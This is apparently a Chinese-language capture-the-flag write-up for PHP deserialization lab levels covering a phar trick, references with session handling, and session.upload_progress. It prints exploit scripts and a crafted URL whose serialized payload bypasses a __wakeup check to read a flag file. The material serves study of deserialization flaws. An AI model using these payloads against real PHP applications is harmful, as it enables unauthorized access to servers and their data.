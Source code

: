 **level12 a phar trick** 

![image-20220221100925190](./pic/image-20220221100925190.png)

**level13 引用和session** 

```php
<?php

class Flag{
    public $name;
    public $her;
    function __wakeup(){
        $this->name=$this->her=md5(rand(1, 10000));
        if ($this->name===$this->her){
            include('flag.php');
            echo $flag;
        }
    }
}
$b=new Flag();
$b->her=&$b->name;
echo serialize($b);

?>
```



`url/hint.php?a=|O:4:%22Flag%22:2:{s:4:%22name%22;N;s:3:%22her%22;R:2;}`

再访问index.php

**leve14 session.upload_progress**

特此注明：有关这道题其实还可以设置session.upload_cleanup = Off，然后考条件竞争，但是此方式与upload类相关漏洞过于相似，此项目就不设置其作为关卡了，感兴趣的朋友可以自行设置游玩。

exp

```php
<?php
class test{
    public $name;
    function __destruct(){
        if($this->name=='flag'){
            include('flag.php');
            echo $flag;
        }
        else{
            phpinfo();
        }
    }
}
$a=new test();
$a->name='flag';
echo serialize($a);
```